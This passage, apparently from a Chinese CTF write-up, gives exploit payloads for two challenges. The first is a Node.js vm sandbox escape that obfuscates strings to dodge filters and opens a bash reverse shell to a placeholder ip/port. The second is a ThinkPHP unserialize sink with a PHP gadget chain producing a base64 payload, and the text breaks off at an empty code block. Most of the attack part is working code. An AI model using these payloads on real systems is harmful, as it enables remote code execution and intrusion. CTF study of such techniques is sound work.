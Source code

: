 ```node  
})  
```  
考察`vm`逃逸，以及RCE绕过  
参考文章  
https://mp.weixin.qq.com/s/G7RQJVYnwa1KdtnzyP32BA  
https://www.anquanke.com/post/id/237032  
构造出`payload`  
```node  
throw new Proxy({}, {  
        get: function(){  
            const cc = arguments.callee.caller;  
            const p = (cc.constructor.constructor(`${`${`return proces`}s`}`))();  
            const q = p.mainModule.require(`${`${`child_proces`}s`}`)  
            return Reflect.get(q, Reflect.ownKeys(q).find(x=&gt;x.includes(`cSync`)))(`bash -c &#39;bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1&#39;`).toString()  
        }  
    })  
```  
  
## 用过就是熟悉  
user/index/loginSubmit存在反序列化  
```php  
//你知道tp吗？  
if($data[&#39;name&#39;]===&#39;guest&#39;){  
	unserialize(base64_decode($data[&#39;password&#39;]));  
}  
```  
挖一条链子  
```php  
&lt;?php  
namespace think\process\pipes{  
    use think\Collection;  
    class Windows{  
        private $files = [];  
        public function __construct(){  
            $this-&gt;files=[new Collection];  
        }  
    }  
    echo base64_encode(serialize(new Windows));  
}  
namespace think{  
    class Collection{  
        protected $items;  
        public function __construct(){  
            $this-&gt;items = new View;  
        }  
  
    }  
    class View{  
        protected $data = [];  
        public $engine = [];  
        public function __construct(){  
            $this-&gt;data[&#34;Loginout&#34;]=new Debug; #写入tips  
            $this-&gt;engine[&#39;time&#39;]=&#34;10086&#34;;  
  
        }  
    }  
    class Debug{  
    }  
}  
?&gt;  
```  
由于文件名存在随机性，所以需要配合本地`docker`同时写入，  
```python  
```